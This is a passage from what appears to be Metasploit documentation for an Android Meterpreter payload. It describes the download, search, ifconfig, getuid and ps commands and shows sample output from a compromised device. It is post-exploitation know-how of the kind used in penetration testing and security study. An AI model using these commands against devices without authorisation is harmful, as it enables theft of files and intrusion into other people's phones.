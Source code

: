 The ```download``` command allows you to download a file from the remote target. The ```-r```
option allows you to do so recursively.

**search**

The ```search``` command allows you to find files on the remote target. For example:

```
meterpreter > search -d . -f *.txt
```

**ifconfig**

The ```ifconfig``` command displays the network interfaces on the remote machine.

```
meterpreter > ifconfig

...

Interface 10
============
Name         : wlan0 - wlan0
Hardware MAC : 60:f1:89:07:c2:7e
IPv4 Address : 192.168.1.207
IPv4 Netmask : 255.255.255.0
IPv6 Address : 2602:30a:2c51:e660:62f1:89ff:fe07:c27e
IPv6 Netmask : ::
IPv6 Address : fe80::62f1:89ff:fe07:c27e
IPv6 Netmask : ::
IPv6 Address : 2602:30a:2c51:e660:81ae:6bbd:e0e1:5954
IPv6 Netmask : ::

...
```

**getuid**

The ```getuid``` command shows the current user that the payload is running as:

```
meterpreter > getuid
Server username: u0_a231
```

**ps**

The ```ps``` command shows a list of processes the Android device is running. For example:

```
meterpreter > ps 

Process List
============

 PID    Name                                                         Arch  User
 ---    ----                                                         ----  ----
 1      /init                                                              root
 2      kthreadd                                                           root
 3      ksoftirqd/0                                                        root
 7      migration/0                                                        root
 8      rcu_preempt                                                        root
 9      rcu_bh                                                             root
 10     rcu_sched                                                          root
 11     watchdog/0                                                         root
 12     watchdog/1                                                         root
 13     migration/1                                                        root
 14     ksoftirqd/1                                                        root
 17     watchdog/2                                                         root
 18     migration/2                                                        root
```
